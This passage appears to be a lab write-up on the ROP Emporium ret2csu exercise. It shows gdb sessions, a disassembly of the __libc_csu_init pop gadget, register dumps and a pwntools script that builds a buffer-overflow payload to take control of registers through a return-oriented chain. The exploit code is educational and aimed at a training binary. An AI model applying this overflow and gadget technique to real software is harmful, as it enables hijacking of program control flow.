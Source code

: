 ```nasm
(gdb) break *0x000000000040069a
Breakpoint 1 at 0x40069a
(gdb) r </tmp/payload
Starting program: /home/vx/Downloads/rop/rop/ret2csu/ret2csu </tmp/payload

Breakpoint 1, 0x000000000040069a in __libc_csu_init ()
(gdb) c
Continuing.
ret2csu by ROP Emporium
x86_64
Breakpoint 1, 0x000000000040069a in __libc_csu_init ()
(gdb)
```

When the program is run,it hits the set breakpoint. Type **c** command for paused process to continue the execution. When the program finishes the execution, the return address now points back to the address of our first gadget, Because of breakpoint, the execution stops. We can inspect the memory to understand the behavior of the program and values loaded in the registers.

```nasm
(gdb) x/10i $rip
=> 0x40069a <__libc_csu_init+90>:	pop    rbx
   0x40069b <__libc_csu_init+91>:	pop    rbp
   0x40069c <__libc_csu_init+92>:	pop    r12
   0x40069e <__libc_csu_init+94>:	pop    r13
   0x4006a0 <__libc_csu_init+96>:	pop    r14
   0x4006a2 <__libc_csu_init+98>:	pop    r15
   0x4006a4 <__libc_csu_init+100>:	ret
   0x4006a5:	nop
   0x4006a6:	nop    WORD PTR cs:[rax+rax*1+0x0]
   0x4006b0 <__libc_csu_fini>:	repz ret
```

Now we can Single step in the debugger and view the values stored in the registers of our gadget. The command for single stepping in gdb is **si**.

```nasm
(gdb) i r rbx rbp r12 r13 r14 r15
rbx            0x4343434343434343  4846791580151137091
rbp            0x4242424242424242  0x4242424242424242
r12            0x4141414141414141  4702111234474983745
r13            0xdeadbeefdeadbeef  -2401053088876216593
r14            0xcafebabecafebabe  -3819410105351357762
r15            0xd00df00dd00df00d  -3454841397007486963
(gdb)
```

From assembly code code above we are able to control all the register value in our chain using our generated payload file. The code for generating the payload is shown below.

```nasm
import pwn

pop_gadget = pwn.p64(0x0040069a)
payload =b"A"*32 #fill the buffer
payload +=b"B"*8 #rbp(saved)
payload += pop_gadget  #retaddr
payload += pwn.p64(0x4343434343434343)#rbx
payload += pwn.p64(0x4242424242424242)#rbp
payload += pwn.p64(0x4141414141414141) #r12
payload += pwn.p64(0xdeadbeefdeadbeef) #r13
payload += pwn.p64(0xcafebabecafebabe) #r14
payload += pwn.p64(0xd00df00dd00df00d) #r15
open('payload', 'wb').write(payload)
```
